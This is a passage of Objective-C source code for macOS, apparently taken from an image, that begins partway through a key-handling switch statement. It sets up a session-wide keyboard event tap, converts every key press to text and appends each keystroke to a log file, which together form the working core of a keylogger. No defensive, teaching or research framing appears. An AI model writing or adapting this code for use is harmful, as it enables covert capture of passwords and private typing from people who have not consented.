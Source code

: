 ```objectivec
            case kVK_F3: keyString = @"<F3>"; break;
            // Add more cases here for other non-printable keys...
            default: break; // Not a special non-printable key
        }

        // If it's not a special key, try to translate it
        if (!keyString) {
            UniCharCount maxStringLength = 4;
            UniCharCount actualStringLength = 0;
            UniChar unicodeString[maxStringLength];
            
            TISInputSourceRef currentKeyboard = TISCopyCurrentKeyboardInputSource();
            CFDataRef layoutData = TISGetInputSourceProperty(currentKeyboard, kTISPropertyUnicodeKeyLayoutData);
            const UCKeyboardLayout *keyboardLayout = (const UCKeyboardLayout *)CFDataGetBytePtr(layoutData);
            
            UInt32 deadKeyState = 0;
            OSStatus status = UCKeyTranslate(keyboardLayout,
                                             keyCode,
                                             kUCKeyActionDown,
                                             0,
                                             LMGetKbdType(),
                                             kUCKeyTranslateNoDeadKeysBit,
                                             &deadKeyState,
                                             maxStringLength,
                                             &actualStringLength,
                                             unicodeString);
            CFRelease(currentKeyboard);

            if (status == noErr && actualStringLength > 0) {
                keyString = [NSString stringWithCharacters:unicodeString length:actualStringLength];
            } else {
                keyString = [NSString stringWithFormat:@"<KeyCode: %d>", keyCode];
            }
        }

        NSString *logString = [NSString stringWithFormat:@"%@\n", keyString];
        AppendStringToFile(logString, kKeystrokesLogPath);
    }
    return event;
}

int main() {
    @autoreleasepool {
        CGEventMask eventMask = CGEventMaskBit(kCGEventKeyDown);
        CFMachPortRef eventTap = CGEventTapCreate(kCGSessionEventTap, kCGHeadInsertEventTap, 0, eventMask, KeyboardEventCallback, NULL);

        if (!eventTap) {
            NSLog(@"Failed to create event tap");
            exit(1);
        }

        CFRunLoopSourceRef runLoopSource = CFMachPortCreateRunLoopSource(kCFAllocatorDefault, eventTap, 0);
        CFRunLoopAddSource(CFRunLoopGetCurrent(), runLoopSource, kCFRunLoopCommonModes);
        CGEventTapEnable(eventTap, true);
        CFRunLoopRun();
    }
    return 0;
}
```